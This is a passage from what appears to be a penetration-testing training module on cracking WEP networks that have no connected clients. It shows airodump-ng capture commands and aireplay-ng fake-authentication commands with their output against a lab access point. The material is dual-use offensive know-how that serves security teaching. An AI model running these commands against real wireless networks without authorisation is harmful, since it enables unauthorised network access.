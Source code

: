 * * *

In the following section, we will explore how to attack a WEP network when no clients are connected and no traffic is being generated. This will involve using `aireplay-ng` to fake authenticate with the access point, thereby generating traffic, followed by utilizing fragmentation or Korek chop chop attacks to forge packets and generate ARP requests.


# Attacking WEP Access Points Without Clients

* * *

Suppose our target network does not have any wireless clients connected and there are no ARP requests coming from any Ethernet-connected stations. In this scenario, we can perform a special `Fragmentation` or `KoreK chop chop` attack in combination with [fake authentication](https://www.aircrack-ng.org/doku.php?id=fake_authentication). It's important to note that while this method works on some networks, it is not universally effective, and ultimately depends on whether the network is vulnerable to fake authentication or not.

We will need three terminals for this attack. In the first terminal, we scan the target network and capture its communications using `airodump-ng`.

```shell
sudo airodump-ng -c 3 --bssid 60:38:E0:71:E9:DC wlan0mon -w WEP

 CH  1 ][ Elapsed: 4 mins ][ 2024-08-10 19:01

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 60:38:E0:71:E9:DC  -47 100     2825       44    0   3   11   WEP  WEP         Virt-Corp

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

```

Once this is running, in our second terminal we will begin packet crafting attempts. This involves using our interface's MAC address to authenticate with the access point. We employ the following command, specifying fake authentication with `-1`, the re-association interval with `1000`, the ESSID of the network with `-e`, the BSSID with `-a`, our MAC address with `-h`, and the keep-alive request interval with `-q`. Additionally, we use `-o 1` to send only one set of packets at a time.

```shell
aireplay-ng -1 1000 -o 1 -q 5 -e HTB-Wireless -a 60:38:E0:71:E9:DC -h 00:c0:ca:98:3e:e0 wlan0mon

Sending Authentication Request
Authentication successful
Sending Association Request
Association successful :-)

```

Note: We supply our own interface's MAC address (00:c0:ca:98:3e:e0) as the attacker.

In the `airodump-ng` output, we can confirm that fake authentication was successful as our MAC address now appears as a client connected to the AP.
